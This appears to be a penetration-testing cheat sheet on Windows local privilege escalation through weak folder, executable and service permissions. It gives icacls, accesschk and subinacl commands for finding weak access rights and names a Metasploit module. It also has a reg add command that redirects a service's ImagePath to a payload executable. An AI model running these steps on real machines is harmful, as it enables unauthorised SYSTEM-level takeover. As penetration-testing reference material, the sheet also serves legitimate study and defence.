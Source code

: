 Insecure Setup:
```bat
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T

F = Full Control
CI = Container Inherit – This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit – This flag indicates that subordinate files will inherit the ACE.
```
```
sc stop "Vulnerable Service"
sc start "Vulnerable Service"

OR

shutdown /r /t 0
```

Need to migrate (auto-migration)

### Folder & Service Executable Privileges

- When new folders are created in the root it is writeable for all authenticated users by default. (NT AUTHORITY\Authenticated Users:(I)(M))
- So any application that gets installed on the root can be tampered with by a non-admin user.
    - If binaries load with SYSTEM privileges from this folder it might just be a matter of replacing the binary with your own one.
- https://msdn.microsoft.com/en-us/library/bb727008.aspx

If folder is writable, drop a exe and use "Service Unquoted Path" to execute:
```bat
icacls "C:\Program Files (x86)\Program Folder"
```

If service exe is writable to everyone, low privilege user can replace the exe with some other binary:
```bat
icacls example.exe
```

```
F = Full Control
CI = Container Inherit - This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit - This flag indicates that subordinate files will inherit the ACE.
```

```bat
accesschk.exe -dqv "C:\" /accepteula
```

### Insecure Service Permissions

- `exploit/windows/local/service_permissions`

#### Approach 1 - Check permissions of service
```bat
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
```
If service is editable, change the `ImagePath` to another exe.
```bat
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
```
